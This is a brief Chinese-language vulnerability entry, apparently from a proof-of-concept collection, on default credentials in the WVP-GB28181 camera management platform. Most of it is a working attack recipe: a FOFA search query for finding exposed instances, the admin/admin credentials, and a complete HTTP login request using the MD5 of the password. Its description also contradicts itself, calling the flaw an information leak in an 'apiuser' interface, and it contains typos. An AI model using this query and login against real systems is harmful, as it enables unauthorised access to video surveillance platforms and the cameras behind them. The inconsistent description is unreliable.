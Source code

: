 # WVP-GB28181摄像头管理平台存在弱口令

## 1.漏洞描述

GB28181Q是公共安全视频监控联网系统信息传输、交换、控制技术要求的标准。该标准主要定义了基于IP网络的音视频监控系统的整体架构，包括前端设备、存储设备、管理平台等组成部分，以及设备接入、流媒体传输、信令交互、存储管理、安全防护和平台管理等方面的要求。

WVP-GB28181-pr0开源物联网摄像头管理平台apiuser接口村存在信息泄露漏洞，攻击者可利用漏洞获取当前系统管理员用户名及密码进行登录系统，使系统处于极不安全的状态。

## 2.影响版本

WVP-GB28181摄像头管理平台

## 3.搜索语法

```plain
 fofa：body="国标28181"
```

## 4.漏洞复现

弱口令为

```plain
admin/admin
```

POC为

```plain
GET /api/user/login?username=admin&password=21232f297a57a5a743894a0e4a801fc3 HTTP/1.1
Host: 127.0.0.1
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126", "Microsoft Edge";v="126"
Accept: application/json, text/plain, */*
Sec-Ch-Ua-Mobile: ?0 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36 Edg/126.0.0.0 
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=1, i
Connection: close


```

响应码为200，响应包显示如下：

![image](https://github.com/hardog123/poc-exp/assets/170905460/e327ff6e-e98d-4fa1-9a8d-c41654698466)
